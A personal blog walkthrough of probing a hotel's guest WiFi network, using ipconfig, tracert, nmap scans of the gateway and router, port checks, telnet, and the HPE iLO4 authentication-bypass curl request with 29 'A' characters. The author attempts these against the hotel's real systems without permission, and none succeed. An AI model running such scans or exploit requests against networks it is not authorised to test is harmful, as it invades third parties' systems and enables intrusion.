







I'm sitting here in my hotel room in Auckland, having driven a long way today - but I'm not tired. I've just connected to the hotel's free WiFi, which gets me thinking about a hotel I stayed in about 10 years ago in Brisbane, where I found that all the hotel's documents were accessible on an open SMB share on the wireless network. Hmmm, I wonder what the security's like here.

<!-- more -->

## IPConfig

Okay, so let's start by checking out what IP I've been given by the hotel DHCP, and what the gateway address is. We do this in Windows by running ```ipconfig```.

The ipconfig command spits out a lot of text, but we're mainly interested in the Wireless LAN adapter and its Default Gateway (which I've highlighted below):

```powershell{22}
PS C:\> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Mobile Broadband adapter Cellular:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Wireless LAN adapter Wi-Fi:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5497:f277:a7e0:9a13%18
   IPv4 Address. . . . . . . . . . . : 10.100.3.112
   Subnet Mask . . . . . . . . . . . : 255.255.248.0
   Default Gateway . . . . . . . . . : 10.100.0.1

Ethernet adapter Bluetooth Network Connection:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

## Angry IP Scanner

Okay, so first things first - we can use [Angry IP Scanner](https://angryip.org/) to check for other machines on the network. This could be either other customers' devices or other hotel servers or devices.



## TraceRoute

We can also use ```tracert``` to find out what devices there are beyond our local gateway. A traceroute can show us the IP of each device our data goes through on the way to a destination IP. In this instance, we'll start a traceroute to CloudFlare's DNS server at [1.1.1.1](https://1.1.1.1/), and we'll turn off resolution of IP addresses to host names with -d (because it slows traceroute down a lot).

```powershell{6}
PS C:\> tracert -d 1.1.1.1

Tracing route to 1.1.1.1 over a maximum of 30 hops

  1    <1 ms     1 ms     1 ms  10.100.0.1
  2     1 ms     1 ms     1 ms  203.167.xxx.xxx
  3     3 ms     2 ms     2 ms  203.97.xxx.xxx
  4     3 ms     3 ms     2 ms  198.41.236.254
  5     3 ms     2 ms     3 ms  198.41.236.253
  6     2 ms     2 ms     2 ms  1.1.1.1
```

The second hop in our traceroute looks interesting - and is probably worth checking out further.

## NMap

To probe further, let's run an ```nmap``` scan on our first IP address. nmap can check for open ports on an IP, and we can also use the -O switch to see if nmap can additionally figure out which OS the machine may be running.

```powershell
PS C:\> nmap -O 10.100.0.1

Starting Nmap 7.80 ( https://nmap.org ) at 2019-08-25 23:22 New Zealand Standard Time
Nmap scan report for 10.100.0.1
Host is up (0.0020s latency).
Not shown: 992 closed ports
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
81/tcp   open     hosts2-ns
443/tcp  open     https
444/tcp  open     snpp
1001/tcp open     webpush
3128/tcp open     squid-http
8080/tcp open     http-proxy
MAC Address: 40:A8:F0:36:xx:xx (Hewlett Packard)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/25%OT=80%CT=1%CU=34038%PV=Y%DS=1%DC=D%G=Y%M=40A8F0%T
OS:M=5D626F7F%P=i686-pc-windows-windows)SEQ(SP=109%GCD=1%ISR=10A%TI=Z%CI=Z%
OS:II=I%TS=U)SEQ(CI=Z%II=I%TS=U)OPS(O1=M5B4NWA%O2=M5B4NWA%O3=M5B4NWA%O4=M5B
OS:4NWA%O5=M5B4NWA%O6=M5B4)WIN(W1=7210%W2=7210%W3=7210%W4=7210%W5=7210%W6=7
OS:210)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NWA%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)

Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.57 seconds
```

Okay, so we know that this is an HP server, and is likely running MS Windows. We can see that a bunch of ports are open, so let's see what we can find out.

### Remote terminal

#### Port 22 - SSH

Starting with port 22, which is open but filtered, we can use the ```ssh``` tool to test for an SSH shell - although methinks we won't have much luck accessing that port:

```powershell
PS C:\> ssh 10.100.0.1`

ssh: connect to host 10.100.0.1 port 22: Connection timed out
```

### Web Server

It looks like this server is running not only a web server on ports 80 (HTTP) and 443 (encrypted HTTPS), but also likely a second web server, maybe for an admin interface, on incremented ports 81 and 444. Port 3128, as nmap tells us, is a Squid Proxy port, and also port 8080 is often used for proxies (as well as local web services built on NodeJS, Python, etc.). Let's see what happens when we try to connect to these ports:

#### Port 80 - Redirect

Port 80 redirects us to the hotel's homepage:



#### Port 81 - HTTP

Port 81 tells us to sod off:


A quick test of various paths (/admin, /login, /config, etc.) gives us a bunch of not found errors:


#### Port 443 - Redirect

Port 443 does the same as port 80 above, redirecting us :(.

#### Port 444 - Admin Interface

Although port 444 redirects us to the hotel homepage, digging a little further shows that visiting the /admin path gives us a login page:



Yay, we've finally got somewhere. At this point, we'll leave this and move on to the next set of ports, rather than risking getting in trouble.

#### Port 1001

Port 1001 doesn't give us anything useful in a browser, and ```telnet``` and ```netcat``` don't give us anything useful either:



```powershell
PS C:\> nc 10.100.0.1 1001

PS C:\>
```

#### Port 3128

Port 3128 gives us a Squid error page, and usefully it also gives us a server name.



#### Port 8080

Port 8080 gives us the same Squid error page as port 3128.



A google search for the server name we just found at the bottom of the Squid error page turns up something interesting - a single result for an open iLO server:



### Integrated Lights Out

iLO is Integrated Lights Out, and is a piece of management hardware in most HP servers which allows admins to manage servers remotely. If this is open to the internet, that's probably not a good idea, especially given that many versions of iLO have a [known security flaw](https://www.bleepingcomputer.com/news/security/you-can-bypass-authentication-on-hpe-ilo4-servers-with-29-a-characters/):

> Last year, a trio of security researchers discovered such a vulnerability, which they say it can be exploited remotely, via an Internet connection, putting all iLO servers exposed online at risk.
>
> The vulnerability is an authentication bypass that allows attackers access to HP iLO consoles. Researchers say this access can later be used to extract cleartext passwords, execute malicious code, and even replace iLO firmware.
>
> But besides being a remotely exploitable flaw, this vulnerability is also as easy as it gets when it comes to exploitation, requiring a cURL request and 29 letter "A" characters

Wow! So, all we need to do to get a list of users and passwords for iLO is make a request to the iLO server's API and send it a bunch of "A"s. Let's give it a go:

```cmd
C:\>curl -i -k -H "Connection: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA" https://xxxxxxxx-akl-nz-lo.reivernet.com/rest/v1/AccountService/Accounts

curl: (7) Failed to connect to xxxxxxxx-akl-nz-lo.reivernet.com port 443: Timed out
```

Damn, nothing. Just to make sure, let's test a normal request to iLO that should be actively rejected by the server:

```cmd
C:\>curl -i -k https://xxxxxxxx-akl-nz-lo.reivernet.com/rest/v1/AccountService/Accounts

curl: (7) Failed to connect to xxxxxxxx-akl-nz-lo.reivernet.com port 443: Timed out
```

Hmmm, okay - nothing again. We're expecting to see some JSON formatted data. Let's just check that we can see the server by pinging it:

```powershell
PS C:\> ping xxxxxxxx-akl-nz-lo.reivernet.com
Pinging xxxxxxxx-akl-nz-lo.reivernet.com [203.167.xxx.xxx] with 32 bytes of data:
Reply from 203.167.xxx.xxx: Destination host unreachable.
Reply from 203.167.xxx.xxx: Destination host unreachable.
Reply from 203.167.xxx.xxx: Destination host unreachable.
Reply from 203.167.xxx.xxx: Destination host unreachable.

Ping statistics for 203.167.xxx.xxx:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
```

Okay, no ping response. Maybe they've moved the iLO port and told the server to not respond to ping requests. Let's run a quick nmap scan:

```powershell
PS C:\> nmap -O xxxxxxxx-akl-nz-lo.reivernet.com

Starting Nmap 7.80 ( https://nmap.org ) at 2019-08-25 23:15 New Zealand Standard Time
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 5.41 seconds
```

Hmmm, either this server's not accessible externally any more, or they've done a good job of making it appear dark online.

Looking into the security issue, and referencing our google search, it looks like the server's iLO is at 2.55, and the security flaw was patched in 2.54, so the server was likely not susceptible to that hack anyway.

Okay, so we followed the yellow brick road a little way and found a potential way in, but one that appears to have been cleaned up. Next up, let's have a look a the next hop on the way out from the hotel to the internet.

### Cisco Router

Let's have a look at the second device on the way out of the hotel to the internet:

```powershell
PS C:\> nmap -O 203.167.xxx.xxx

Starting Nmap 7.80 ( https://nmap.org ) at 2019-08-25 23:48 New Zealand Standard Time
Nmap scan report for 203.167.xxx.xxx
Host is up (0.0017s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
23/tcp   open  telnet
3128/tcp open  squid-http
8080/tcp open  http-proxy
Device type: router|switch
Running: Cisco IOS 12.X
OS CPE: cpe:/h:cisco:870_router cpe:/o:cisco:ios:12 cpe:/h:cisco:2960_switch
OS details: Cisco 870 router or 2960 switch (IOS 12.2 - 12.4)
Network Distance: 3 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.83 seconds
```

#### Port 23 - Telnet

Hmmm, that doesn't look very safe - this is a Cisco 870 router running CIOS 12.4 or lower and with port 23, for telnet, open to the public. Let's see if we can connect:

```powershell
PS C:\> telnet 206.167.xxx.xxx

CC
CC
XXXXXXXX Auckland
----------------
Access strictly prohibited, authorised personnel only
please contact the hotel IT Solutions Manager on
09 353xxxx before proceeding. Or email
hxxxx-it01@xxxxxxxxauckland.co.nz
Thank you.

User Access Verification

Username:

% Username:  timeout expired!

Connection to host lost.
```

Okay, so this seems like a bad idea. The hotel really shouldn't allow any kind of plain text connections to its router, and also shouldn't have this port open to their guests.
